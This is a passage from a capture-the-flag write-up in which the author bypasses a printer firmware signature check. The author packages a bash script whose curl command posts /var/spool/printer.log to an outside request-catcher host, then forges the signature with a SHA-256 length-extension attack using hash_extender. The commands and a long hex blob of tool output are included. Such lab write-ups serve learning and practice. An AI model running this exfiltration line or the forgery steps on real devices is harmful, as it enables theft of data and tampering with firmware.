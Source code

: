 We see that it is a file called firmware.bin and it is an ELF binary that runs on a Linux system. Instead of trying to compile a C application on my Mac to
work on Linux, I wrote a bash script and made it executable. The challenge called for gaining a shell, but since we are only trying to read the contents of /"var/spool/printer.log" I figured I would just have curl read the file and send it to me in a POST body. Yes, I got a little lazy :)


{% highlight shell %}
#!/bin/bash

curl -d @/var/spool/printer.log https://bdubkringle.requestcatcher.com/
{% endhighlight %}

{% highlight shell %}
88665a561824:Documents bryan$ chmod +x firmware.bin
88665a561824:Documents bryan$ zip a.zip firmware.bin
  adding: firmware.bin (deflated 9%)
{% endhighlight %}


Next, I used hash_extender to append a.zip to the original firmware zip (original_firmware.bin). I was able to pass both the signature and the length of the
secret because those were returned to us in the original json output.

{% highlight shell %}
88665a561824:Documents bryan$ hash_extender --file original_firmware.bin --append `cat a.zip | xxd -p -c 99999999999` --append-format hex --signature
2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --format sha256 -l 16 —table
Type: sha256
Secret length: 16
New signature: a36629c0342a2bf4d55d4f31d6065bfce65de103684f8e10d00e09f0bb473d63
New string:
504b030414000000080045a5905316a0a8f06a090000e04000000c001c006669726d776172652e62696e5554090003a2a4bb61a2a4bb6175780b000104000000000400000000ed5b5f6c1c47199fbd
f3d9e73a5e9fd384384ec09792480ee4ce97a4761d5a373edb67afd1c531a91dd45067b3f6ae7d47ef8f7bb747ec0022e0523815973e54a80fed0b79492590287d8107d4045b952a284a1e2a224191
09a9e446a05e54885248bdccecceb7de99db6bca0bf0b09f74fbdbef9bef3733fbcdec7ad63bdfb712c9619f2020103f7a14116d3c64e9fdd47ee688ed826dbda8091f3f833e8deab15ee7f0e331e5
633168b763f12e523b8fbb118b8203eb506d391360118536790187cee35b028b4e9ed95e98da394c092c3a792436eb114b5fef6351a2d739ee63793ecabb437977fa585c13588478d6d1df2aad8fc7
21c422c470fc5d5d25e77be9f5f0f8086211785fc2bc7af4c905c27d82b6572b2e6d3e1621ac5d99f474cf835d19359249e74a0b9185de9e48cf83d1623e7ac8ec5388fa8e8c4d9afe647e416849f9
366a23e577cffea8f9adb7f7bc240cb584065f3b25567efb97eb1077183784be6d1ee11aaf6abfcb7edcf591ee875dec4df8b7d5c5de51c3fe788d7a5235ece4ba1f70eb108ed70c094f0f9a2fe945
24cb330b8a3c9bce2999f4390daba45c2eea4a4197b34a3a874692a30383f2a1e8a168379247278ec9aa56d0e6d2455d2b4c1c1bcce473da84329d21ccb96c3e4799b2e5eaea48c447c7c087e32a98
b18579506a4f3712fb41aac3f8c37c8eb55a58e1ec155a41673f6b07fdda510b612c41d61c76bfc3beeeb03b9f2b15873de0b0df71d89df3bf8db6df8036e79d279e78e289279e78e289279efcbf89
b4f4d7a0f46ce09d2e7cfadd4bbacfb8222dad0657ec72a3fb3a2e32f6ddc0c7968e7e7c4674f23682de5b33b0ecfb39d6679f07ff837f1b2d5f3d2d95af4b4b372ae313c9e5c029bc0c97969b3f20
8d2df75d26756e9fc59cbfb7740c99a65748dbcb811f13387247df8ebbf328ed4ea3b1d6d2719ed4bb4211fb2f9afedd0502fb37a4cb1b7ea95c912eaf1f958437a4ab1bfa365cc1765a41d0589b35
db01fef9be23b80895ba26a5a5bedb515263f95d7d8bf46c5f7b17792bc557b49ec2873702ad5817a656b8f6dffb3a2e9cc41c1cb850f99b77a572a982fbf44b1193d7360ce317c4e9cd15dce8d366
3ce25f1e2dff3e7e72b47c3b3e192f7f14c711d9377f00a149693942f0b1e47e525570bd88c9d2e58ffcfaae837f68e940c9f23f93e5db43e5f7e3c6b63f4a4b2b8274e49dd24d32365f998a3f119f
8a9f8ecbb84f6805c69019354f3cf1c4134f3cf1c4134f3cf1c4134f3c6145403e349c2e64cf2a052d9c2e86674b99cc62b8341fd6f36155d1b53dc46797ffe15e647defbafbbe619037dbdd15c3f8
09c603182730b6de328c558c8f60bc81f1258c0704ebbbabd9ceb91348580809bbb634049f171a42c44ebeed5fc1f57dded11f777f84f652ff79ec1f260e6268586cfb624bd3d9e07974b4fde1cf1d
defb00f0c937ee14f60b3aea25dc27f02f81fb6b3ac6c5d033bec1e6fa29dc00e57c03ffc671f914291f10433ff425c4b6e7fc0931bc5c97103b7f1090c4d833f592d8bbd43022f67f55ec8d8bb1b8
d839208607c436ec3f2006cdef9b240e295c8ff3fba3279e78e289279e78e289279e78e2c97f4becfd948efdc94edc028eb4bc99aaab94b793eab04f7317d5e11dab9d22ecd7dccd95ff63c3c89b3a
dd7c097b2aaf511df652c6a87e1fd5bf43b189621bc5ed88157b4f67bf05b00713fce1bdb281e20e8a5280b57fbf8eedf7258a8d5c7dff32aceb01d70daaa728dfa03ac4b742f553b4fc43aa3bf7a2